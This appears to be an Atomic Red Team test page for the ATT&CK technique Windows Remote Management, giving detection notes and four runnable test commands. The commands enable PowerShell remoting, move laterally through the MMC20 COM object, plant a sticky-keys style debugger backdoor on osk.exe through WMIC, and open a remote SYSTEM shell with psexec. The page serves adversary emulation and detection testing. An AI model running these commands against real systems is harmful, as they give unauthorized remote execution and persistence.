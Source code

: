 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)

Detection: Monitor use of WinRM within an environment by tracking service execution. If it is not normally used or is disabled, then this may be an indicator of suspicious behavior. Monitor processes created and actions taken by the WinRM process or a WinRM invoked script to correlate it with other related events.

Platforms: Windows

Data Sources: File monitoring, Authentication logs, Netflow/Enclave netflow, Process command-line parameters, Process monitoring

Permissions Required: User, Administrator

System Requirements: WinRM listener turned on and configured on remote system

Remote Support: Yes</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
powershell Enable-PSRemoting -Force
```
<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computername | Name of Computer | string | computer1|

#### Run it with `command_prompt`!
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","${computername}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```
<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`!
```
wmic /user:${user_name} /password:${password} /node:${computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```
<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`!
```
psexec \\host -u domain\user -p password -s cmd.exe
```
<br/>
